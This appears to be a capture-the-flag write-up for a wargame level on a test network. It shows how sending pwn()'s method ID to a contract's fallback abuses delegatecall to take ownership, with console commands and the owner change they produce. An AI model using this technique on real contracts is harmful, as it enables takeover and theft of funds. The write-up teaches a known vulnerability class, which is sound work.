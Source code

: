 # SOLUTION
## Links

Target: https://rinkeby.etherscan.io/address/0xaA6eE422C66BAb310F2d36cc11646a3fce498983

Secondary: https://rinkeby.etherscan.io/address/0x9451961b7Aea1Df57bc20CC68D72f662241b5493
Exploit: 

With the instance address we can first see the internal transaction for constructor call with address param 0x9451961b7Aea1Df57bc20CC68D72f662241b5493 whtch is the delegate contract

Now if we track that address too we can see delegate's contructor call that take an owner address as param https://rinkeby.etherscan.io/tx/0xa85872e0e6c45de99e882d013fedda5fa5bbe503927fa6488e50d5a4df1f72e5

Same as 

	await contract.owner()	
	'0x9451961b7Aea1Df57bc20CC68D72f662241b5493'

Whitch is msg.sender (from) of the contract creation

Now the vulnarabilty here is the the context of delegateCall, they call the target but keep the sender context so heach target action is reflected not on it's variables but on the senders.

Our goal is to call pwn() from Delegate throw the fallback function of Delegation by doing a delegatecall
pwn() will change the owner not of it's own context but of Delegation

To do that we need the function signature
https://rinkeby.etherscan.io/tx/0x96415dee91d72b96a073e73fd9ba9c6e532c443ff9cd5da94de88cf257608d49

	Function: pwn() ***

	MethodID: 0xdd365b8b

Now to call the fallback function of delegation 
https://rinkeby.etherscan.io/tx/0x5de4a5d9daed240a352f0cbfd821cc55e8632fff4747a0e483b5316c6041d537
	
	await contract.owner()
	'0x9451961b7Aea1Df57bc20CC68D72f662241b5493'

	await sendTransaction({from: "0x6E81372783990a13715857888B32325621DB44E2", to: "0xaA6eE422C66BAb310F2d36cc11646a3fce498983", value: toWei("0"), data: "0xdd365b8b"})

	await contract.owner()
	'0x6E81372783990a13715857888B32325621DB44E2'

## Level completed!

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the The Parity Wallet Hack Explained article for an accurate explanation of how this idea was used to steal 30M USD.